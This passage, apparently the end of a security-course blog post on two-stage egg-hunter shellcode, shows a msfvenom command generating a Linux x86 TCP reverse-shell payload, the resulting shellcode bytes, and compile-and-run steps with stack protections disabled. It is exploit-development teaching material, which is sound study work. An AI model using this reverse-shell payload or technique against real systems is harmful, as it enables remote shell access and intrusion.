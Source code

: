 You can try with any egg shellcode you want and set it just after the EGG variable.  Let's try with a TCP reverse shellcode:  
```bash
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f c -b \x00
...
unsigned char buf[] = 
"\xbb\x6d\xed\x21\x01\xdb\xcf\xd9\x74\x24\xf4\x5a\x33\xc9\xb1"
"\x12\x31\x5a\x12\x83\xea\xfc\x03\x37\xe3\xc3\xf4\xf6\x20\xf4"
"\x14\xab\x95\xa8\xb0\x49\x93\xae\xf5\x2b\x6e\xb0\x65\xea\xc0"
"\x8e\x44\x8c\x68\x88\xaf\xe4\x15\x6a\x50\xf5\x81\x68\x50\xe4"
"\x0d\xe4\xb1\xb6\xc8\xa6\x60\xe5\xa7\x44\x0a\xe8\x05\xca\x5e"
"\x82\xfb\xe4\x2d\x3a\x6c\xd4\xfe\xd8\x05\xa3\xe2\x4e\x85\x3a"
"\x05\xde\x22\xf0\x46";
```
  
Let's compile and execute shellcode_heap.c:  
```bash
# gcc -fno-stack-protector -z execstack -o shellcode_heap shellcode_heap.c  && ./shellcode_heap
Egg hunter shellcode Length:  34
Egg shellcode Length:  99

```
  
In another windows:  
![image4]({{ site.url }}/public/images/slae/assignment3/image4.png)  
  
So in this article we just saw how to create a two-staged shellcode. One stage consists in injecting our effective payload (the biggest one) and the second one consists in a small hunter shellcode looking for the first one.  
  
Hope you enjoyed,  
Don't hesitate to comment and share.  
  
[Phackt](https://twitter.com/phackt_ul)
